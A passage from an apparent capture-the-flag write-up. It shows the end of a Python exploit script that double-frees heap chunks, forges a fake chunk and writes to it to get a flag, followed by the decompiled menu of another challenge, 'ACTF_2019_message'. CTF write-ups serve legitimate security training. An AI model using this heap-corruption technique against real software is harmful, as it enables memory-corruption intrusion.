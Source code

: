 ```
    sla("Which kingdom?\n", str(size))

def getflag():
    sla("choice > ", "6")

add()# 0 
add()# 1
delete(0)
delete(1)
delete(0)
add() # 2 == 0
fake_chunksize_addr = show_addr()
fake_chunk_addr = fake_chunksize_addr - 8
print(hex(fake_chunksize_addr))
print(hex(fake_chunk_addr))
pause()
set_fake_chunksize(0x20)
edit(2, fake_chunk_addr)# edit(0, fake_chunk_addr)
add()# 3 == 1
add()# 4 == 0
add()# 5 == fakechunk
edit(5, 0xdeadbeef)
getflag()
itr()
```

### ACTF_2019_message

menu：

```
unsigned __int64 menu()
{
  unsigned __int64 v1; // [rsp+8h] [rbp-8h]

  v1 = __readfsqword(0x28u);
  puts("==============================");
  puts("    MESSAGE RECORD SYSTEM     ");
  puts("==============================");
  puts("1. Add message                ");
  puts("2. Delete message             ");
  puts("3. Edit message               ");
  puts("4. Display message            ");
  puts("5. Exit                       ");
  puts("==============================");
  printf("What's your choice: ");
  return __readfsqword(0x28u) ^ v1;
}
```

结构体：
